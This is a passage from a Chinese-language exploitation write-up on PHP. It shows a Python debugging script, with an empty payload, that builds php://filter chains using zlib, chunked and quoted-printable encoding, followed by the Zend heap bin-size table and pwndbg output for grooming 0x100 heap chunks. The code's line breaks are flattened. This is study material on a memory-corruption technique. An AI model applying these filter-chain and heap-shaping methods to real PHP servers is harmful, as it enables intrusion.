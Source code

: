 ```
#!/usr/bin/env python3# -*- coding=utf-8 -*-import zlibimport base64def p64(data: int) -> bytes:    return int.to_bytes(data, 8, "little")# 该函数对数据进行zlib压缩，让php的zlib.inflate进行解压缩def compress(data) -> bytes:    """Returns data suitable for `zlib.inflate`.    """    # Remove 2-byte header and 4-byte checksum    return zlib.compress(data, 9)[2:-4]# 对数据纪念下quoted printable编码，php解码使用的是convert.quoted-printable-decodedef qpe(data: bytes) -> bytes:    """Emulates quoted-printable-encode.    """    return "".join(f"={x:02x}" for x in data).upper().encode()# 最终填充到0x8000长度的数据def compressed_bucket(data: bytes) -> bytes:    """Returns a chunk of size 0x8000 that, when dechunked, returns the data."""    return chunked_chunk(data, 0x8000)# 进行HTTP CHUNKED编码，php使用dechunkdef chunked_chunk(data: bytes, size: int = None) -> bytes:    """Constructs a chunked representation of the given chunk. If size is given, the    chunked representation has size `size`.    For instance, `ABCD` with size 10 becomes: `0004\nABCD\n`.    """    # The caller does not care about the size: let's just add 8, which is more than    # enough    if size is None:        size = len(data) + 8    keep = len(data) + len(b"\n\n")    size = f"{len(data):x}".rjust(size - keep, "0")    return size.encode() + b"\n" + data + b"\n"# 做了点修改，把chunk函数删除了，因为payload的构造不一样，所以使用chunk函数会有不同def ptr_bucket(*ptrs, size=None) -> bytes:    """Creates a 0x8000 chunk that reveals pointers after every step has been ran."""    if size is not None:        assert len(ptrs) * 8 == size    bucket = b"".join(map(p64, ptrs))    bucket = qpe(bucket)    return bucketdef buildPayload() -> str:    payload = b""    pages = (        payload    )    resource = compress(pages)    resource = base64.b64encode(resource)    resource = f"data:text/plain;base64,{resource.decode()}"    filters = [        "zlib.inflate",    ]    filters = "|".join(filters)    path = f"php://filter/read={filters}/resource={resource}"    return pathdef main():    path = buildPayload()    phpCode = f"""<?php$poc = "{path}";$data = file_get_contents($poc);var_dump($data);?>"""    with open("poc.php", "w") as f:        f.write(phpCode)    print(path)if __name__ == "__main__":    main()
```  
  
以上就是我通过公开的PoC修改的一版调试用的python脚本，我们只需关注该脚本中的buildPayload  
函数。调试命令也很简单：python3 poc.py && gdb ./php8.1-8.1.2/fpm-build/sapi/cli/php  
。  
  
接下来我们将探讨如何将这一问题与CTF的思路联系起来。在CTF中，常能够轻松利用的原因是我们可以相对容易地控制堆的分配和释放。因此，现在我们需要研究如何在php中实现对堆的分配和释放的控制。  
  
和公开的PoC一样，我们选择控制长度为0x100的堆（这个长度的堆比较好对齐）。  
  
在此之前，我们还需要知道在PHP堆的free_slot  
中，堆的尺寸是如何分布的，可以参见zend_alloc_sizes.h  
文件，如下所示：  
```
/* num, size, count, pages */#define ZEND_MM_BINS_INFO(_, x, y) \    _( 0,    8,  512, 1, x, y) \    _( 1,   16,  256, 1, x, y) \    _( 2,   24,  170, 1, x, y) \    _( 3,   32,  128, 1, x, y) \    _( 4,   40,  102, 1, x, y) \    _( 5,   48,   85, 1, x, y) \    _( 6,   56,   73, 1, x, y) \    _( 7,   64,   64, 1, x, y) \    _( 8,   80,   51, 1, x, y) \    _( 9,   96,   42, 1, x, y) \    _(10,  112,   36, 1, x, y) \    _(11,  128,   32, 1, x, y) \    _(12,  160,   25, 1, x, y) \    _(13,  192,   21, 1, x, y) \    _(14,  224,   18, 1, x, y) \    _(15,  256,   16, 1, x, y) \    _(16,  320,   64, 5, x, y) \    _(17,  384,   32, 3, x, y) \    _(18,  448,    9, 1, x, y) \    _(19,  512,    8, 1, x, y) \    _(20,  640,   32, 5, x, y) \    _(21,  768,   16, 3, x, y) \    _(22,  896,    9, 2, x, y) \    _(23, 1024,    8, 2, x, y) \    _(24, 1280,   16, 5, x, y) \    _(25, 1536,    8, 3, x, y) \    _(26, 1792,   16, 7, x, y) \    _(27, 2048,    8, 4, x, y) \    _(28, 2560,    8, 5, x, y) \    _(29, 3072,    4, 3, x, y)
```  
  
所以我们要查看0x100大小的堆在free_slot  
中的情况，可以使用以下命令：  
```
pwndbg> php_heap$1 = {  use_custom_heap = 0,  storage = 0x0,  size = 493544,  peak = 493544,  free_slot = ......pwndbg> p $1.free_slot[15]$2 = (zend_mm_free_slot *) 0x7ffff5288100
```  
#### 2.3.3.1 获取一个0x100大小的堆  
  